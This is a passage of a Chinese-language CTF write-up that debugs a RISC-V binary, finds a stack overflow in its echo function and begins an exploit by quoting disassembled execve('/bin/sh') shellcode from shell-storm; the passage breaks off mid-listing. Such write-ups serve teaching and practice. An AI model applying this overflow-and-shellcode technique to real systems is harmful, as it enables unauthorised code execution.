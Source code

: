 可以看到调用echo时的a0寄存器的值，也就是作为参数的地址

![](https://tva1.sinaimg.cn/large/008eGmZEly1gmeb4mijnpj30xs0cgq3n.jpg)

经过动调可以找到echo后面的字符串，在echo函数里作为strcmp的参数

echo函数中通过`read(0,auStack320,__nbytes);`，往栈中`auStack320 [264];`数组里写入__nbytes个字节

gdb调一下发现在echo不存在的文件的时候可以输入0x200个字节

![](https://tva1.sinaimg.cn/large/008eGmZEly1gmef0v3ze9j30qe0tkta7.jpg)

输入0x200个字符可以造成栈溢出

![](https://tva1.sinaimg.cn/large/008eGmZEly1gmef1g9edcj30u00x5ack.jpg)

由于pie和NX，什么栈地址、libc加载地址都是固定的，所以一开始想直接在栈中布置shellcode，覆盖返回地址到shellcode，google到一段执行`execve("/bin/sh", NULL, 0)`的shellcode

```python
#from http://shell-storm.org/shellcode/files/shellcode-908.php

'''
/ (fcn) entry0 76


|   entry0 ();


|           0x000100b0      0111           addi sp, sp, -32 


|           0x000100b2      06ec           sd ra, 24(sp)


|           0x000100b4      22e8           sd s0, 16(sp)


|           0x000100b6      13042102       addi s0, sp, 34


|           0x000100ba      b767696e       lui a5, 0x6e696


|           0x000100be      9387f722       addi a5, a5, 559


|           0x000100c2      2330f4fe       sd a5, -32(s0)


|           0x000100c6      b7776810       lui a5, 0x10687


|           0x000100ca      33480801       xor a6, a6, a6


|           0x000100ce      0508           addi a6, a6, 1



|           0x000100d0      7208           slli a6, a6, 0x1c


|           0x000100d2      b3870741       sub a5, a5, a6


```